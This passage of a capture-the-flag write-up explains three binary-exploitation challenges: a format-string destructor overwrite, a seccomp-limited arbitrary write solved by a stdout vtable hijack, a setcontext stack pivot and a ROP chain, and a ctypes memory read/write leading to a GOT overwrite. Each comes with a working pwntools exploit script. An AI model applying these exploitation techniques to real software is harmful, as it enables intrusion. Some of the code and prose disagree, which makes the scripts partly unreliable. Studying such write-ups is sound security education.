   0x7ffff7fe0f40                  shr    rdx, 0x3
   0x7ffff7fe0f44                  mov    QWORD PTR [rbp-0x38], rsi
   0x7ffff7fe0f48                  lea    eax, [rdx-0x1]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
$r14   : 0x0000000000403db8  →  0x0000000000401180  →  <__do_global_dtors_aux+0> endbr64
$r15   : 0x00007ffff7ffe190  →  0x0000000000000000
```

As we can see, **$r14** contains our pointer to our destructor and **$r15** contains l_addr offset.

If we can somehow modify the value inside **$r15**, we can offset the pointer elsewhere.

Thankfully for us, because `link_map->l_addr` is used for dynamic resolution, our linker would've already referenced it before the program and pushed it onto the stack below.

Let's break at `printf+170` to look at the stack at the point where we run our format string.

```
gef➤  telescope -l 50
...
<TRUNCATED>
...
0x00007fffffffc3f0│+0x0180: 0x00007ffff7ffe190  →  0x0000000000000000
```

As we can see we have our pointer to l_addr kying on the stack,
With our format string, we can modify this value to offset our destruction function pointer to point to our own input, and call win.

#### Exploit Script

```python
from pwn import *
p = process("./fmt_fun")
payload = b"%658c"
payload += b"%26$n"
# fini_array + 658 = buf + len(payload)
payload += p64(0x401251)
p.sendline(payload)
p.interactive()
```

## rope (474 pts) - 18 solves
---

>
> Stop doing jumpropes.
> Author: Eth007
> 
> [rope_release.zip](attachments/pwn/rope/rope_release.zip)
>

### Analysis

```c
char input[256];

int setup()
{
  int v1;

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v1 = seccomp_init(0LL);
  seccomp_rule_add(v1, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 0LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 1LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 5LL, 0LL);
  return seccomp_load(v1);
}

int main()
{
  _QWORD *v4; // [rsp+8h] [rbp-18h] BYREF
  __int64 v5[2]; // [rsp+10h] [rbp-10h] BYREF

  // ignore
  v5[1] = __readfsqword(0x28u);
  
  // seccomp filter
  setup();

  // leak puts libc address
  printf("%p\n", &puts);

  // gets 
  fgets(inp, 256, stdin);
  __isoc99_scanf("%ld%*c", &v4);
  __isoc99_scanf("%ld%*c", v5);

  // arbitrary write anywhere
  *v4 = v5[0];
  
  puts("ok");
  return 0;
}
```

```
[*] '/home/elmo/CTF/Archives/0722-ictf2022/pwn/rope/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
```

```
❯ seccomp-tools dump ./vuln
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0009
 0006: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0009
 0007: 0x15 0x01 0x00 0x00000002  if (A == open) goto 0009
 0008: 0x15 0x00 0x01 0x00000005  if (A != fstat) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

Program imposes a seccomp filter which only allow user to do **read write, open** and **fstat** syscall.

Then we get a libc address _(puts)_, a 256 byte input and an arbitrary write.

Since NX is enabled, and there is no **win** function, it implies that we would need to **ROP** with **read, write** and **open** in order to read the flag.


First, we would want to find a way to loop the program so that we can have more than one write.

We can overwrite the **vtable pointer** to a pointer back to **main**, so that everytime the program call `puts()`, it will jump to the **vtable pointer** and call main.



We can put **puts** in our `inp[256]` variable, and then point the vtable to **inp-0x38**.

```python
from pwn import *

context.binary = elf = ELF('./vuln')
libc = ELF("./libc-2.23.so")

main_inputs = 0x401341 # address in main to return to, where 3 inputs are taken

puts = int(p.recvline(), 16) # get our leak to resolve libc base
libc.address = puts - libc.sym.puts

print(f"{libc.address:#x}")

def rsd(ret, where, write_what):
    p.sendline(ret)
    p.sendline(str(where))
    p.sendline(str(write_what))

# loop the program infinitely by overwriting vtable pointer in stdout
rsd(p64(main_inputs), libc.sym._IO_2_1_stdout_ + 0xd8, elf.sym.inp - 0x38)

p.interactive()
```

Since we want to **ROP** to get our flag, we can place our ROP chain into our `inp` and then pivot the stack there.

We can do this using the **setcontext** function in libc which takes in **__IO_2_1_stdout_** as its first argument _(RDI)_.



As you can see, `[__IO_2_1_stdout_ + 0xa0]` will be used as the **RSP** and `[__IO_2_1_stdout_ + 0xa8]` will be moved into **RCX** and pushed onto the stack. 

So we should set **RCX** to a **ret** gadget to return to our ROP chain that we will put at our new stack frame.

With this, we are able to pivot our stack to any value we write into `[__IO_2_1_stdout_ + 0xa0]`.

If we pivot our stack to **inp** and place our **ROP** chain there, we can get our flag!

### Exploit Script

```python
# coding: utf-8
from pwn import *


context.binary = elf = ELF('./vuln')
libc = ELF("./libc-2.23.so")


def rsd(ret, where, write_what):
    p.sendline(ret)
    p.sendline(str(where))
    p.sendline(str(write_what))


p = process('./vuln')

puts = int(p.recvline(), 16)
libc.address = puts - libc.sym.puts

print(f"{libc.address:#x}")

main_inputs = 0x401341

rop = ROP(libc)

# gadgets
pivot = libc.sym.setcontext + 53
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
pop_rsi = rop.find_gadget(["pop rsi", "ret"])[0]
pop_rdx = rop.find_gadget(["pop rdx", "ret"])[0]
syscall = rop.find_gadget(["syscall", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

############################
#                          #
#        rop chain         #
#                          #
############################

# open flag.txt
chain = p64(pop_rax) + p64(2)
chain += p64(pop_rdi) + p64(0x404900)
chain += p64(pop_rsi) + p64(0)
chain += p64(pop_rdx) + p64(0)
chain += p64(syscall)

# read flag.txt to libc bss
chain += p64(pop_rax) + p64(0)
chain += p64(pop_rdi) + p64(3)
chain += p64(pop_rsi) + p64(libc.bss(42))
chain += p64(pop_rdx) + p64(1000)
chain += p64(syscall)

# write flag.txt to stdout
chain += p64(pop_rax) + p64(1)
chain += p64(pop_rdi) + p64(1)
chain += p64(pop_rsi) + p64(libc.bss(42))
chain += p64(pop_rdx) + p64(1000)
chain += p64(syscall)

############################
#                          #
#      exploit chain       #
#                          #
############################

# loop the program infinitely by overwriting vtable pointer in stdout
rsd(p64(main_inputs), libc.sym._IO_2_1_stdout_ + 0xd8, elf.sym.inp - 0x38)

# write flag.txt to memory
rsd(p64(main_inputs), 0x404900, u64(b"flag.txt"))

# write return gadget to rcx, to be pushed onto the stack
rsd(p64(main_inputs), libc.sym._IO_2_1_stdout_ + 0xa8, ret)

# return to setcontext gadget and pivot stack to our ROPgadget
payload = p64(pivot) + b"A"*16
payload += chain

rsd(payload, libc.sym._IO_2_1_stdout_ + 0xa0, elf.sym.inp+0x18)

# get flag!
p.interactive()
```

## pywrite (482 pts) - 15 solves
---

> 
> Where heapnote meets pyjail, meet pywrite, the most unrealistic, convoluted challenge ever. Challenge is running on latest Ubuntu 20.04 docker.
> Author: Eth007
>
> [pywrite.zip](attachments/pwn/pywrite/pywrite.zip)
>

```python
from ctypes import c_ulong

def read(where):
  return c_ulong.from_address(where).value

def write(what, where):
  c_ulong.from_address(where).value = what

menu = '''|| PYWRITE ||
1: read
2: write
> '''

while True:
  choice = int(input(menu))
  if choice == 1:
    where = int(input("where? "))
    print(read(where))
  if choice == 2:
    what = int(input("what? "))
    where = int(input("where? "))
    write(what, where)
  if choice == 3:
    what = input("what????? ")
    a = open(what)
    print(a)

```

```
[*] '/home/elmo/CTF/Archives/0722-ictf2022/pwn/pywrite/python3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    FORTIFY:  Enabled
```

As you can see from the source code, we are given a menu with 3 choices.

1. We are allowed to read any value in memory
2. We are allowed to write any value to memory
3. We are allowed to run *open()* on any input we like

This challenge was trivial. 

We could obtain **libc base address** by making a read to the **GOT**

We could then write **libc system address** to **open64@plt.got** and then run **open("/bin/sh")** with choice 3 and get a shell!

### Exploit Script

```python

from pwn import *

context.binary = elf = ELF("./python3")
libc = ELF("./libc.so.6")
p = process(["./python3", "./vuln.py"])

p.sendlineafter(b"> ", "1")
p.sendlineafter(b"where? ", str(0x8f6310))
leak = int(p.recvline())
libc.address = leak - libc.sym.malloc

p.sendlineafter(b"> ", "2")
p.sendlineafter(b"what? ", str(libc.address + 0xe6c7e))
p.sendlineafter(b"where? ", str(elf.got.open64))

p.sendlineafter(b"> ", "3")
p.sendlineafter(b"what????? ", "cat flag.txt")

p.interactive()
```
